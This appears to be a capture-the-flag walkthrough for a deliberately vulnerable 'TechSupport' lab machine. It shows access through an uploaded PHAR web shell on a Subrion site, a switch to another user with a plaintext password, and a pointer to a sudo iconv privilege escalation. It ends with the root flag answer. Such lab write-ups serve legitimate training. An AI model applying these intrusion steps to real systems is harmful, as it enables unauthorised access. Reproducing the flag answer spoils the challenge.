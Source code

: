 ![image](https://github.com/user-attachments/assets/44ef0909-e31a-41eb-8d43-c82d392b874b)

![image](https://github.com/user-attachments/assets/2cf2bba4-4496-441a-bbb2-9f2c0b935cb8)

<p>- navigated to http://TargetIP/subrion/uploads/rose.shell.phar</p>

![image](https://github.com/user-attachments/assets/caf79b19-6b63-4bdc-961e-077c28d25a97)


```bash
www-data@TechSupport:/home/scamsite$ ls -lah
ls -lah
total 32K
drwxr-xr-x 4 scamsite scamsite 4.0K May 29  2021 .
drwxr-xr-x 3 root     root     4.0K May 28  2021 ..
-rw------- 1 scamsite scamsite  151 May 28  2021 .bash_history
-rw-r--r-- 1 scamsite scamsite  220 May 28  2021 .bash_logout
-rw-r--r-- 1 scamsite scamsite 3.7K May 28  2021 .bashrc
drwx------ 2 scamsite scamsite 4.0K May 28  2021 .cache
-rw-r--r-- 1 scamsite scamsite  655 May 28  2021 .profile
-rw-r--r-- 1 scamsite scamsite    0 May 28  2021 .sudo_as_admin_successful
drwxr-xr-x 2 root     root     4.0K May 29  2021 websvr
www-data@TechSupport:/home/scamsite$ su scamsite
su scamsite
Password: ImAScammerLOL!123!

scamsite@TechSupport:~$
```

```bash
scamsite@TechSupport:~$ pwd
pwd
/home/scamsite
scamsite@TechSupport:~$ sudo -l
sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
scamsite@TechSupport:~$ 
```

<p><code>(ALL) NOPASSWD: /usr/bin/iconv</code></p>

<p>https://gtfobins.github.io/gtfobins/iconv/</p>

![image](https://github.com/user-attachments/assets/91f3a42d-2c18-4721-aadf-6e474535dde1)


<br>

<p>1.1. What is the root.txt flag?<br>
<code>851b8233a8c09400ec30651bd1529bf1ed02790b</code></p>
